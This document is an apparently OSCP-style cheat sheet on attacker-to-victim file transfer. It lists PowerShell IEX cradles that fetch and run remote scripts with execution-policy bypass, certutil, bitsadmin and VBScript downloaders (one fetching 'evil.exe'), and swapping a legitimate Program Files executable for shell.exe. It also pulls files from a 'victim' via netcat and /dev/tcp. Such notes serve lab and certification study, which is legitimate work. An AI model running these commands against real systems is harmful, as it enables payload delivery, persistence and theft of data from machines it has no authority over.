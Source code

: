 ## File Transfers


* File Transfer SMB

'''
# mount drives
net use abcd: \\kali_ip\myshare
net use abcd: /d # disconnect
net use abcd: /delete # then delete
# To access the drive
Z:

# PowerShell
New-PSDrive -Name "abcd" -PSProvider "FileSystem" -Root "\\ip\abcd"
# To access the drive
abcd:
Remove-PSDrive -Name abcd

# OR copy directly from the share without mounting
copy //kali_ip/abcd/file_name C:\path\to\save
copy C:\path\to\file //kali_ip/abcd
copy "C:\Program Files\..\legit.exe" C:\Temp
copy /Y C:\Downloads\shell.exe "C:\Program Files\...\legit.exe"

# Python
smbserver.py share .
'''

* File Transfer through HTTP
```
# Download to Windows
# Load script in memory
powershell.exe -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://ip/file')"
powershell.exe iex (iwr http://ip/file -usebasicparsing)

# Save script on disk
powershell.exe -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadFile('http://ip/file','C:\Users\Public\Downloads\file')"
powershell.exe -nop -ep bypass -c "IWR -URI 'http://ip/file' -Outfile '/path/to/file'"

# CertUtil
certutil -urlcache -f http://kali_ip/file file


# Bash alias
httpsrv
python -m SimpleHTTPServer 8080

# Wget
wget http://<ip>/file_name -O /path/to/save/file

# Wget.ps1
echo $storageDir = $pwd >> wget.ps1
$webclient = New-Object System.Net.WebClient >> wget.ps1

# Download file from
$url = "http://<ip>/file_name" >> wget.ps1
# Save file as
$file = "file_name"
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -nop -ep bypass -nol -noni -f wget.ps1

# Netcat
On Target:
nc 192.168.1.102 4444 > file
On Attacking:
nc -nv <ip> <port> > file/to/recv

# Curl
curl http://<ip>/file_name --output file_name

# Php
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php

# Scp
Copy a file:
scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext

Copy a directory:
scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination

# Bitsadmin
bitsadmin /transfer transfName /priority high http://example.com/examplefile.pdf C:\downloads\examplefile.pdf
```

* File Transfer through FTP/TFTP

'''
# Setup ftp server with offsec:creds by putting this into bash script
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd

Run commands
sudo ./setup-ftp.sh
ftp 10.11.0.4

# Download through FTP script when FTP restricted
echo open <ip> >> download.txt
echo anonymous >> download.txt
echo anon >> download.txt
echo binary >> download.txt
get file_name >> download.txt
bye >> download.txt
ftp -s:download.txt

# TFTP
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart

tftp -i <ip> get file_name
'''

* File Transfer through VBScript

'''
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

cscript wget.vbs http://192.168.10.5/evil.exe evil.exe
'''

* Base64 Encoding and Decoding

'''
# Linux
base64 -w0 <file> #Encode file
base64 -d file #Decode file

# Windows
certutil -encode payload.dll payload.b64
certutil -decode payload.b64 payload.dll
'''

* Download Files from Victim

'''
nc -lvnp 80 > file #Inside attacker
cat /path/file > /dev/tcp/10.10.10.10/80 #Inside victim
'''